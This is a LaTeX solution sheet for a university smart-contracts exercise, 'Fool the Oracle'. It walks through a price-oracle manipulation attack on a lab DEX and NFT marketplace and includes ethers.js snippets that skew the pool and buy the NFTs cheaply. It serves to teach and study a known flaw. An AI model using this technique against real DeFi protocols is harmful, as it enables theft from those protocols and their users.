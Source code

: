 \documentclass[12pt]{article}
\title{Smart Contracts Exercise 06: \\ Fool the Oracle -- Solution}
\author{}
\date{}
\begin{document}
\maketitle

\noindent
The solved Exercise 06 - Fool the Oracle can be found in this \href{https://gitlab.fel.cvut.cz/radovluk/smart-contracts-exercises/-/tree/main/06-Fool-the-Oracle/solution/solution-code?ref_type=heads}{GitLab repository}.

\section*{Solution to Task 1: Fool the Oracle 01}

The solution to Task 1 leverages price manipulation in the SimpleDEX, which is being used as a price oracle by the NFT marketplace. By exploiting the price impact mechanics of AMM, we can change the exchange rate between ETH and USDC to make the NFTs much cheaper in ETH terms. The key steps in the solution are:

\begin{enumerate}
\item First, we approve the DEX to spend our USDC tokens:
\begin{verbatim}
await usdcToken.connect(player).approve(simpleDEX.target, PLAYER_INITIAL_USDC);
\end{verbatim}
\item Then, we swap all our USDC (3,000) for ETH, which drastically changes the composition of the liquidity pool. This manipulation causes the price of ETH (in USDC terms) to significantly increase:
\begin{verbatim}
await simpleDEX.connect(player).usdcToEth(PLAYER_INITIAL_USDC);
\end{verbatim}

\item Finally, we purchase all three NFTs at the artificially low ETH prices:
\begin{verbatim}
for (let i = 1; i <= NFT_COUNT; i++) {
    const ethPrice = await nftMarketplace.getCurrentPriceForNFT(i);
    console.log(`Purchasing NFT #${i} for ${ethers.formatEther(ethPrice)} ETH`);
    await nftMarketplace.connect(player).buyNFT(i, { value: ethPrice });
}
\end{verbatim}
\end{enumerate}
This attack exploits the fact that the NFT marketplace blindly trusts the DEX as its price oracle without considering that the price could be manipulated through normal trading activities.
\end{document}
